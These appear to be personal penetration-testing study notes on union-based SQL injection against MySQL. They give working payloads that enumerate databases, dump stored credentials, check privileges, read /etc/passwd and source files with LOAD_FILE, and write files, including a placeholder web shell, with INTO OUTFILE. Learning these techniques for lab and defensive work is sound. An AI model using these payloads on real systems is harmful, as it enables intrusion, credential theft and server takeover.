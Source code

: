 #### Database Enumeration

Testing for MySQL:
![[Pasted image 20250205111327.png]]

To reference a  table in another DB, use '.'
```sql
SELECT * FROM my_database.users;
```


To find database names:
```shell-session
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```


```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

```sql
cn' UNION select 1,database(),2,3-- -
```

Print out records from another database:
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

Print out columns from a table:
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```


#### Privileges - Reading

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Testing super admin privileges:
```sql
SELECT super_priv FROM mysql.user
```
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
Y = yes

Show privileges:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

If FILE is a privilege, we can read local system files:
```sql
SELECT LOAD_FILE('/etc/passwd');
```
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

Source code:
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```


#### Privileges - Writing

3 things must be enables:
1. User with FILE privilege enabled
2. MySQL global secure_file_priv variable not enabled
3. Write access to the location we want to write to on the back-end server

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
Empty = read/write files to any location

Writing files:
```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

```sql
cn' union select "",'<input php web shell here>', "", "" into outfile '/var/www/html/shell.php'-- -
```

